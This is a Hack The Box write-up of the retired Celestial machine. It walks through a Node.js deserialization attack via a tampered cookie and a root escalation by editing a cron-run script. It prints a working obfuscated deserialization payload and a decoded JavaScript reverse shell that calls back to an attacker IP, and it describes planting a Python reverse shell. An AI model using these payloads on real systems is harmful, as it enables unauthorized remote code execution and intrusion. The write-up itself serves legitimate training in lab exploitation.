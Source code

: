 Title: HTB - Celestial
Date: 2018-12-04
Modified: 2018-12-04
Category: ctf
Tags: ctf, hack the box
Slug: htb-celestial
Authors: Riley
Summary: Guide to Celestial from Hack the Box


## Preamble

The original writeup I did for this was some time ago.
My methodology then didn't include nearly as many images, and the box has been retired since August 2018.
If I had the option to redo this with better notes and images to create a better product here, I absolutley would.

## Description
The attack path for Celestial involves a deserialization attack against the hosted Node.js Express server, followed by some automated script hijacking.

Celestial's lab IP is 10.10.10.85.

## Reconnaissance

The first thing I did was perform a scan of the host to determine what services were open, finding that only HTTP on port 3000 was available, which appeared to be a Node.js Express application.

Investigating the web page, the first thing display was a 404 error, but reloading the webpage revealed a different response, with the text **Hey Dummy, 2 + 2 = 22**.

Proxying my traffic through Burp suite revealed a base64 encoded cookie, with attributes including **username**, **country**, **city**, and **num**.
Some research revealed that this Node.js application may be susceptible to a deserialization attack.

After some experimentation, I successfully generated a payload that would exploit the vulnerability.

#### Poisoned cookie, from Base64 with encoded JS shellcode
```text
{"username":"Dummy","rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,48,54,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,10,32,32,32,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,10,32,32,32,32,32,32,32,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,10,32,32,32,32,125,59,10,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) ;\n }()"}
```

#### JS shellcode, decoded from Base10 CharCode
```javascript
var net = require('net');
var spawn = require('child_process').spawn;
HOST="10.10.14.106";
PORT="1337";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') {
    String.prototype.contains = function(it) {
        return this.indexOf(it) != -1;
    };
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

After replacing my original cookie with the Base64 encoded tampered cookie, I got a reverse shell and the user flag.

![user](/images/ctf/htb/celestial/user.png "Getting user")

Of immediate interest was the file **`output.txt`** which has a creation time within the last 5- or 10-minute time increment and the contents *Script is running...*.

After some observation, the creation time increments every 5 minutes exactly, indicating an automated process.
The contents of the file match the contents of the **`echo "Script is running..."`** line from a file called **`script.py`** under the **`Documents/`** directory.
Modifying the script to output a different string also modified the output file’s contents.

I created a Python reverse shell and my code into **`script.py`** and set a listener on Kali.
At the next 5-minute mark, the code executed, giving me another reverse shell and the root flag.

![root](/images/ctf/htb/celestial/root.png "Getting root")
